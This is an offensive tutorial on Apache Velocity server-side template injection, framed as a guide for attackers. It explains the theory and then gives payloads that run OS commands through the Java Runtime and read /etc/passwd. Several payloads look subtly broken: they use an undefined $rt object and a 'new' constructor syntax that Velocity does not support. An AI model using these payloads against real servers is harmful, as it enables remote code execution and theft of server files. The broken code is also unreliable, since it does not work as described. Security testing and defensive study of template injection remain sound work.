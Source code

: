 ```yaml
---
title: Mastering Velocity Exploitation Techniques
description: Explore Apache Velocity SSTI for remote code execution and file access
  with practical steps and payloads.
keywords:
- Velocity SSTI
- Apache Velocity
- remote code execution
- file access
- template injection
- Java runtime
- security vulnerabilities
- exploitation techniques
---
```


# Velocity Exploitation

## Context

This article provides a comprehensive guide to exploiting Apache Velocity template injection for offensive purposes. It is crafted to help offensive operators understand and execute attacks that culminate in command execution or sensitive file access through server-side template injection (SSTI). Before delving into these techniques, readers should have an understanding of template engines, the Java Runtime Environment, web server architecture, and generic SSTI techniques.

## Theory

### Apache Velocity Template Engine Internals

Apache Velocity is a Java-based templating engine that facilitates dynamic web content rendering. While it empowers developers with the capability to dynamically generate site content using the Velocity Template Language (VTL), it can also pose significant security risks if not properly sandboxed.

One underlying principle that makes Apache Velocity potentially dangerous is its ability to access Java objects and methods directly within the templates. If user input is embedded within these templates in an unsafe manner, it could be evaluated, leading to arbitrary code execution.

### Velocity Injection Attack Surface

The attack surface for Velocity injection is broadened by the ease with which Apache Velocity templates can evaluate user-controllable inputs. A typical attack sequence involves an adversary injecting Velocity syntax into any field or parameter processed by the template engine.

Developers often make the mistaken assumption that these templates are fully isolated from sensitive Java classes. In reality, Velocity templates can interact with a broad spectrum of Java classes, thanks to built-in objects such as `$runtime` and `$request`, thereby exposing sensitive interfaces and functionalities.

### Command Execution via Velocity SSTI

At the core of exploiting Velocity for command execution is the engine's linkage with the Java Runtime. It allows access to Java's underlying system processes if it isn't deliberately restricted, facilitating command execution directly through template evaluations.

Attackers exploit this by using syntax such as `#set($x=$rt.getRuntime())` to fetch a Runtime instance, which can then instigate command executions. Input filter mechanisms often fail against strategic input obfuscation or alternate syntax forms, thus allowing these injections to succeed.

### File Access and Inclusion via Velocity

For file access and inclusion, the Velocity engine utilizes Java's input/output (IO) classes, enabling attackers to read or include arbitrary files via template injections.

For example, malicious payloads can deliberately instantiate `File` or `FileInputStream` classes, achieving unauthorized file accesses and completions due to improper input validation and inadequate access controls in templates.

## Practice

### Velocity SSTI for Remote Command Execution

To exploit Velocity SSTI for Remote Command Execution:

1. Inject the following payload to obtain a Runtime instance and execute the `id` command on the server:
    
    ```velocity
    #set($x=$rt.getRuntime())
    #set($y=$x.exec('id'))
    $y.waitFor()
    ```

2. Read and display the command output by injecting additional Velocity syntax:
    
    ```velocity
    #set($is=$y.getInputStream())
    #set($br=new java.io.BufferedReader(new java.io.InputStreamReader($is)))
    #set($output='')
    #foreach($line in $br.readLine())$output$line#end
    $output
    ```

*Outcome*: If successful, the attacker gains the ability to execute arbitrary OS commands on the target server, which can lead to significant control over the victim system.

### Velocity SSTI for Arbitrary File Read

To achieve Arbitrary File Read using Velocity SSTI:

1. Deploy the following payload to read contents of the `/etc/passwd` file using Java IO classes:

    ```velocity
    #set($fis=new java.io.FileInputStream('/etc/passwd'))
    #set($isr=new java.io.InputStreamReader($fis))
    #set($br=new java.io.BufferedReader($isr))
    #set($line='')
    #foreach($line in $br.readLine())$line
    #end
    ```

*Outcome*: This exploitation fetches and displays sensitive information like the contents of the `/etc/passwd` file, potentially exposing critical server data.

## Tools

- **Burp Suite**: A tool for intercepting traffic and testing security vulnerabilities.
- **curl**: A command-line utility for crafting HTTP requests.
- **VelocityPayloads**: Predefined payloads to facilitate SSTI exploitation in Apache Velocity.

This detailed guide should arm security practitioners with the operational knowledge to exploit Apache Velocity template injection vulnerabilities effectively and responsibly, following ethical hacking guidelines.

